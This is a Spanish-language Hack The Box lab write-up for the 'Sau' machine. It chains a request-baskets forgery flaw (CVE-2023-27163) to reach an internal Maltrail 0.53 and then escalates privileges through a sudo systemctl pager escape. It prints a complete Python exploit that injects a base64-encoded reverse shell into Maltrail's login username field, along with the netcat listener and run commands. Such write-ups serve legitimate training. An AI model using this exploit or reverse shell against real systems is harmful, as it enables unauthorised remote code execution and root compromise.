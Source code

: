 ```yaml
---
layout: single
title: Sau - Hack The Box
date: 2023-10-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/sau_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - RCE
  - CSRF
  - abuso sudoers
  - CVE-2023–27163
---
```


![](/assets/images/htb-writeup-sau/sau_logo.png)

En esta máquina nos aprovecharemos de la vulnerabilidad del Mailtrail v0.53 para llevar a cabo un CSRF, en el cual aprovecharemos para poder ver qué servicio corren en puertos que externamente no tenemos acceso, una vez identificamos qué ahí allí nos aprovecharemos para explotar dicho servicio web que externamente no teníamos acceso & convertirlo en un RCE otorgándonos una Reverse Shell



# PortScan
____________

```
 nmap -p- --min-rate 5000 -vvv -Pn -n -sS 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 16:48 AST
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 16:48, 14.11s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-28 16:48:01 AST for 14s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

# Sitio Web
__________

![](/assets/images/htb-writeup-sau/Pasted image 20231028164933.png)


Sí indagamos un poco en busca de vulnerabilidades, encontraremos qué esta versión de "**request-baskets**" es vulnerable a un (**CSRF**), [(CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7), de manera qué podríamos aprovecharnos de esta vulnerabilidad para descubrir qué hay en el ":80" qué nos apareció como "filtered"


![](/assets/images/htb-writeup-sau/Pasted image 20231028165410.png)


Debemos tener todas las check's seleccionados, y en la URL indicar el localhost y que apunte al **:80**, esto para qué la misma máquina host apunte a su puerto & pueda visualizar que servicio corre en este puerto, probablemente un HTTP, ya qué exteriormente a lo mejor por reglas de "firewall" no podamos visualizar.


![](/assets/images/htb-writeup-sau/Pasted image 20231028165642.png)


Podemos ver que en el **":80"** está corriendo un **Mailtrail** con versión **0.53**, sí indagamos en busca de vulnerabilidades para este este aplicativo encontraremos qué podemos llevar a cabo un **RCE**, como sé explica en [éste artículo](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5), y sí indagamos más encontraremos exploit para aprovecharnos de esta vulnerabilidad para otorgarnos una Reverse Shell, un script montado en python, a continuación se dejará el script utilizado.
```python
```py
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```


Antes de llevar a cabo el script, nos ponemos en escucha con "netcat".
```
nc -nlvp 443
```

Para posterior a esto ejecutar el script con los parámetros indicados.
```
python3 exploit.py 10.10.14.116 443 http://10.10.11.224:55555/733up1m
```

Esto puede llevar un poco de tiempo, pero al cabo de un rato nos otorgará una reverse shell.


![](/assets/images/htb-writeup-sau/Pasted image 20231028170555.png)


# Escalada de Privilegios
______


Sí nos fijamos en nuestro permisos sudoers con:
```
sudo -l
```


![](/assets/images/htb-writeup-sau/Pasted image 20231028170807.png)

Veremos qué podemos ejecutar el binario **"systemctl status trail.service"** como todos los usuarios y sin proporcionar contraseñas, por ende podemos aprovecharnos de esto para ejecutar con sudo este binario & como está configurado no nos pedirá la credenciales del usuario actual, por lo qué tan sólo debemos poner el "sudo" delante del binario, es decir esto:

```
sudo systemctl status trail.service
```

Nos abrirá el binario como **Root**, y para aprovecharnos de esto debemos hacer como cuando usamos **vim** que nos abrimos el apartado para guardar, quitar, etcera, es decir "q" o "w", pero en vez de esto llamaremos una **tty**, ya sea una bash, sh o cualquiera otra, pero para esto debemos poner un signo de admiración hacia abajo y luego llamar la consola, como veremos a contiuación

![](/assets/images/htb-writeup-sau/Pasted image 20231028171134.png)


Posterior a ello obtendremos la tty indicada pero como Root.


![](/assets/images/htb-writeup-sau/Pasted image 20231028171815.png)
